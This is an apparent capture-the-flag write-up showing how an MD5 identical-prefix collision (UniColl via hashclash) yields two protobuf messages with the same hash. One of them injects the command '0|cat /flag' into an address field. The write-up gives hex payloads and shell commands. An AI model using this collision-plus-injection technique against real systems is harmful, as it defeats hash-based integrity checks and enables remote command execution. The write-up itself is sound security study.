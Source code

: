 We tried Chosen-Prefix Collision with two different payloads (one good, one evil). We tried [hashclash](https://github.com/cr-marcstevens/hashclash). It took 2 hours and the final payload's length wasn't predictible. So I couldn't set a reliable length for it and the protobuf would fail.

After a while I finally understood how [UniColl](https://github.com/corkami/collisions#unicoll-md5) works and gave it a try. It basically uses your prefix, modifies predictably the 10th byte, and results in a predictable length (128 bytes from 12 bytes prefix). I can append another payload at the end and it would still have the same hashsum. Marvelous.

So because it is changing the 10th byte, I could have the length there. After using UniColl I would get two payloads, with that length differing from one another. And append at the end a payload that would act as an ignored field for the good payload and act as the address for the evil payload.

```
PREFIX
0A-AA-01-0A-03-30-30-30-2A-77-00-00

SUFFIX
0A-0A-2A-20-30-7C-63-61-74-20-2F-66-6C-61-67-20-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-2A-07-23-23-23-23-23-23-23
```

And in between we had `128 - 12 = 116 chars` of data for the md5 collision. _Ignore the first `0A` in the suffix, that was a mistake._

I used `0|cat /flag ###` for the address in the evil payload. This was a bit of a bet because I wasn't sure the flag would be there. Considering the hint and that it takes `~5 minutes` to generate another collision, I hoped it was there.

I tested with the `00` in between to validate the payloads.

```
Good - Valid Ping - 0x78 length
0A-AA-01-0A-03-30-30-30-2A-78-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-0A-0A-2A-20-30-7C-63-61-74-20-2F-66-6C-61-67-20-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-2A-07-23-23-23-23-23-23-23

Evil - RCE cat /flag - 0x77 length
0A-AA-01-0A-03-30-30-30-2A-77-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-0A-0A-2A-20-30-7C-63-61-74-20-2F-66-6C-61-67-20-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-23-2A-07-23-23-23-23-23-23-23
```

You can check them both at [https://protogen.marcgravell.com/decode](https://protogen.marcgravell.com/decode) and notice that the only difference is the 10th byte. It's very important after we have the collision to use first the one with `0x78` on the 10th byte, and then the other one.

We use hashclash with Identical-Prefix Collision (UniColl) to get the two collisions.


```sh
cd hashclash

mkdir ipc_workdir
cd ipc_workdir

# PREFIX
echo CqoBCgMwMDAqdwAA | base64 -d > prefix.txt
../scripts/poc_no.sh prefix.txt

cp collision1.bin col1.bin
cp collision2.bin col2.bin

```